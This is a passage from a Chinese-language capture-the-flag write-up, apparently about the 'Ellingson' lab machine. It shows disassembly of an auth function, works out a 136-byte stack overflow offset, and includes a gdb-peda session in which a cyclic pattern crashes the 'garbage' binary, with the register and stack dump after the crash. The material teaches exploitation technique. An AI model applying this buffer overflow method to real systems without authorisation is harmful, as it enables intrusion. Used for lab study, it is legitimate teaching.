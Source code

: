 |      |    0x00401612      b800000000     mov eax, 0
|      |    ; CODE XREF from sym.auth (0x401604)
|      `--> 0x00401617      c9             leave
\           0x00401618      c3             ret
{% endhighlight %}

- 计算stackoverflow的offset, RBP寄存器里的字节offset为128字节，再加上64位系统的8字节，一共需要128+8=`136`字节的填充数据

{% highlight console %}
Ellingson # gdb -q ./garbage
Reading symbols from ./garbage...(no debugging symbols found)...done.
gdb-peda$ pattern_create 256
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G'
gdb-peda$ r
Starting program: /tmp/Ellingson/garbage 
Enter access password: AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G

access denied.

Program received signal SIGSEGV, Segmentation fault.

[----------------------------------registers-----------------------------------]
RAX: 0x0 
RBX: 0x0 
RCX: 0x7f037a88c924 (<__GI___libc_write+20>:	cmp    rax,0xfffffffffffff000)
RDX: 0x7f037a95d580 --> 0x0 
RSI: 0x13499c0 ("access denied.\nssword: ")
RDI: 0x0 
RBP: 0x6c41415041416b41 ('AkAAPAAl')
RSP: 0x7fff2964ab88 ("AAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G")
RIP: 0x401618 (<auth+261>:	ret)
R8 : 0xf 
R9 : 0x7f037a95b848 --> 0x7f037a95b760 --> 0xfbad2a84 
R10: 0x4005a5 --> 0x7475700073747570 ('puts')
R11: 0x246 
R12: 0x401170 (<_start>:	xor    ebp,ebp)
R13: 0x7fff2964ac80 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x40160d <auth+250>:	call   0x401050 <puts@plt>
   0x401612 <auth+255>:	mov    eax,0x0
   0x401617 <auth+260>:	leave  
=> 0x401618 <auth+261>:	ret    
   0x401619 <main>:	push   rbp
   0x40161a <main+1>:	mov    rbp,rsp
   0x40161d <main+4>:	sub    rsp,0x10
   0x401621 <main+8>:	mov    eax,0x0
[------------------------------------stack-------------------------------------]
0000| 0x7fff2964ab88 ("AAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G")
0008| 0x7fff2964ab90 ("RAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G")
0016| 0x7fff2964ab98 ("ApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G")
0024| 0x7fff2964aba0 ("AAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G")